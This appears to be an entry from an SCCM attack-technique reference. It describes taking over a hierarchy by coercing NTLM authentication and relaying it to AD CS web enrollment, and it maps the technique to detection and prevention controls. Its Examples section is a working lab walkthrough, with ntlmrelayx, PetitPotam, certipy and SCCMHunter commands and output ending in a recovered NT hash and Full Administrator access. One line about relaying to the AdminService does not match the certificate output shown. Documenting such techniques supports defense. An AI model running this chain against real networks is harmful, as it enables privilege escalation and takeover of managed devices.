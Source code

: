 # TAKEOVER-3

## Description
Hierarchy takeover via NTLM coercion and relay to HTTP on AD CS

## MITRE ATT&CK TTPs
- [TA0004](https://attack.mitre.org/tactics/TA0004) - Privilege Escalation
- [TA0008](https://attack.mitre.org/tactics/TA0008) - Lateral Movement

## Requirements
### Coercion
- Valid Active Directory domain credentials
- Connectivity to SMB (TCP/445) on a coercion target:
    - TAKEOVER-3.1: Coerce primary site server
    - TAKEOVER-3.2: Coerce SMS Provider
    - TAKEOVER-3.3: Coerce passive site server
    - TAKEOVER-3.4: Coerce site database server
- Connectivity from the coercion target to SMB (TCP/445) on the relay server (or WebClient enabled and connectivity via any port)
- Coercion target settings:
    - `BlockNTLM` = `0` or not present, or = `1` and `BlockNTLMServerExceptionList` contains attacker relay server
    - `RestrictSendingNTLMTraffic` = `0`, `1`, or not present, or = `2` and `ClientAllowedNTLMServers` contains attacker relay server
    - Domain computer account is not in `Protected Users`
- Domain controller settings:
    - `RestrictNTLMInDomain` = `0` or not present, or is configured with any value and `DCAllowedNTLMServers` contains coercion target

### Relay
- Either of the following AD CS services is in use:
    - Certificate Authority Web Enrollment
    - Certificate Enrollment Web Service
- Connectivity from the relay server to HTTPS (TCP/443) on the relay target hosting the AD CS service
- Extended protection for authentication is not required by the target AD CS service
- An enabled AD CS template that allows enrollment and supports authentication 
- Relay target settings:
    - `RestrictReceivingNTLMTraffic` = `0` or not present
- Domain controller settings:
    - `RestrictNTLMInDomain` = `0` or not present, or is configured with any value and `DCAllowedNTLMServers` contains relay target
    - `LmCompatibilityLevel` < `5` or not present, or = `5` and LmCompatibilityLevel >= `3` on the coercion target

## Summary
When available, SCCM uses public key infrastructure (PKI) for authentication and authorization. While not required, administrators may choose to deploy Active Directory Certificate Services (AD CS) to support SCCM's [various certificate requirements](https://learn.microsoft.com/en-us/mem/configmgr/core/plan-design/security/plan-for-certificates) rather than use self-signed certificates. AD CS is home to its own [misconfigurations](https://posts.specterops.io/certified-pre-owned-d95910965cd2); particularly ESC8. In short, the [certificate enrollment web interface](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/hh831649(v=ws.11)) is vulnerable to NTLM relaying. An attacker may coerce NTLM authentication from a coercion target and relay to the AD CS enrollment web service to enroll in and acquire a valid certificate template on behalf of the target. The template can then be used to escalate to "Full Administrator" in SCCM by impersonating the coerced target.

## Impact
The "Full Administrator" security role is granted all permissions in Configuration Manager for all scopes and all collections. An attacker with this privilege can execute arbitrary programs on any client device that is online as SYSTEM, the currently logged on user, or as a specific user when they next log on. They can also leverage tools such as CMPivot and Run Script to query or execute scripts on client devices in real-time using the AdminService or WMI on an SMS Provider.

## Defensive IDs
- [DETECT-1: Monitor site server domain computer accounts authenticating from another source](../../../defense-techniques/DETECT/DETECT-1/detect-1_description.md)
- [PREVENT-11: Disable and uninstall WebClient on site servers](../../../defense-techniques/PREVENT/PREVENT-11/prevent-11_description.md)
- [PREVENT-14: Require EPA on AD CS and site databases](../../../defense-techniques/PREVENT/PREVENT-14/prevent-14_description.md)
- [PREVENT-20: Block unnecessary connections to site systems](../../../defense-techniques/PREVENT/PREVENT-20/prevent-20_description.md)

## Subtechniques
- TAKEOVER-3.1: Coerce primary site server
- TAKEOVER-3.2: Coerce SMS Provider
- TAKEOVER-3.3: Coerce passive site server
- TAKEOVER-3.4: Coerce site database server

## Examples
The steps to execute TAKEOVER-3.1 through TAKEOVER-3.4 are the same except that a different system is targeted for coercion of NTLM authentication. The following example assumes the AD CS service has been previously enumerated and the web enrollment form is vulnerable to ESC8.

1. Use `SCCMHunter` to  profile SCCM infrastructure:

    ```
    [12:24:25 AM] INFO     [+] Finished profiling all discovered computers.                                   
    [12:24:25 AM] INFO     +-------------------------+------------+-----------------+--------------+-------------------+---------------------+---------------+--------+---------+
                        | Hostname                | SiteCode   | SigningStatus   | SiteServer   | ManagementPoint   | DistributionPoint   | SMSProvider   | WSUS   | MSSQL   |
                        +=========================+============+=================+==============+===================+=====================+===============+========+=========+
                        | provider.internal.lab   | None       | False           | False        | False             | False               | True          | False  | False   |
                        +-------------------------+------------+-----------------+--------------+-------------------+---------------------+---------------+--------+---------+
                        | sccm.internal.lab       | LAB        | False           | True         | True              | False               | True          | False  | False   |
                        +-------------------------+------------+-----------------+--------------+-------------------+---------------------+---------------+--------+---------+       
    ```

2. On the attacker relay server, start `ntlmrelayx`, targeting the URL of the certificate enrollment web interface on the certificate authority:

    ```
    └─# ntlmrelayx.py -t http://ca.internal.lab/certsrv/certfnsh.asp --adcs -smb2support
    Impacket v0.12.0.dev1+20240130.154745.97007e84 - Copyright 2023 Fortra

    [*] Protocol Client SMB loaded..
    [*] Protocol Client IMAPS loaded..
    [*] Protocol Client IMAP loaded..
    [*] Protocol Client RPC loaded..
    [*] Protocol Client DCSYNC loaded..
    [*] Protocol Client MSSQL loaded..
    [*] Protocol Client LDAPS loaded..
    [*] Protocol Client LDAP loaded..
    [*] Protocol Client SMTP loaded..
    [*] Protocol Client HTTPS loaded..
    [*] Protocol Client HTTP loaded..
    [*] Running in relay mode to single host
    [*] Setting up SMB Server
    [*] Setting up HTTP Server on port 80
    [*] Setting up WCF Server
    [*] Setting up RAW Server on port 6666

    [*] Servers started, waiting for connections
    ```

3. From the attacker host, coerce NTLM authentication from the site server via SMB, targeting the relay server's IP address:

    ```
    ┌──(root㉿DEKSTOP-2QO0YEUW)-[/opt/PetitPotam]
    └─# python3 PetitPotam.py -u lowpriv -p P@ssw0rd <NTLMRELAYX_LISTENER_IP> <SITE_SERVER_IP> 

    Trying pipe lsarpc
    [-] Connecting to ncacn_np:10.10.100.121[\PIPE\lsarpc]
    [+] Connected!
    [+] Binding to c681d488-d850-11d0-8c52-00c04fd90f7e
    [+] Successfully bound!
    [-] Sending EfsRpcOpenFileRaw!
    [-] Got RPC_ACCESS_DENIED!! EfsRpcOpenFileRaw is probably PATCHED!
    [+] OK! Using unpatched function!
    [-] Sending EfsRpcEncryptFileSrv!
    [+] Got expected ERROR_BAD_NETPATH exception!!
    [+] Attack worked!
    ```

    After a few seconds, you should receive an SMB connection on the relay server that is forwarded to the AdminService on the SMS Provider to add a Full Administrator:

    ```
    [*] SMBD-Thread-5 (process_request_thread): Received connection from 10.10.100.9, attacking target http://ca.internal.lab
    [*] HTTP server returned error code 200, treating as a successful login
    [*] Authenticating against http://ca.internal.lab as LAB/SCCM$ SUCCEED
    [*] SMBD-Thread-7 (process_request_thread): Connection from 10.10.100.9 controlled, but there are no more targets left!
    [*] Generating CSR...
    [*] CSR generated!
    [*] Getting certificate...
    [*] GOT CERTIFICATE! ID 9
    [*] Base64 certificate of user SCCM$:
    MIIQ/QIBAzCCELcGCSqGSIb3DQEHAaCCEKgEghCkMIIQoDCCBtcGCSqGSIb3DQEHB.....
    ```

4. Use `certipy` to recover the coerced target's NT hash:

    ```
    └─# certipy auth -pfx sccm.pfx
    Certipy v4.8.2 - by Oliver Lyak (ly4k)

    [*] Using principal: sccm$@internal.lab
    [*] Trying to get TGT...
    [*] Got TGT
    [*] Saved credential cache to 'sccm.ccache'
    [*] Trying to retrieve NT hash for 'sccm$'
    [*] Got hash for 'sccm$@internal.lab': aad3b435b51404eeaad3b435b51404ee:075f745ec2daeb97c87b30d1d394f28b
    ```

5. Use `sccmhunter` to authenticate to the coerced target's own AdminService:

    ```
    └─# python3 sccmhunter.py admin -u sccm\$ -p aad3b435b51404eeaad3b435b51404ee:075f745ec2daeb97c87b30d1d394f28b -ip 10.10.100.9
    SCCMHunter v1.0.0 by @garrfoster
    [21:23:25] INFO     [!] Enter help for extra shell commands
    () C:\ >> show_admins
    [21:23:31] INFO     Tasked SCCM to list current SMS Admins.
    [21:23:31] INFO     Current Full Admin Users:
    [21:23:31] INFO     LAB\Administrator
    [21:23:31] INFO     LAB\lowpriv
    ```

## References
- Will Schroeder and Lee Chagolla-Christensen, [Certified Pre-Owned](https://posts.specterops.io/certified-pre-owned-d95910965cd2)
- Oliver Lyak, [Certipy](https://github.com/ly4k/Certipy)
- Microsoft, [Plan for PKI certificates in Configuration Manager](https://learn.microsoft.com/en-us/mem/configmgr/core/plan-design/security/plan-for-certificates)
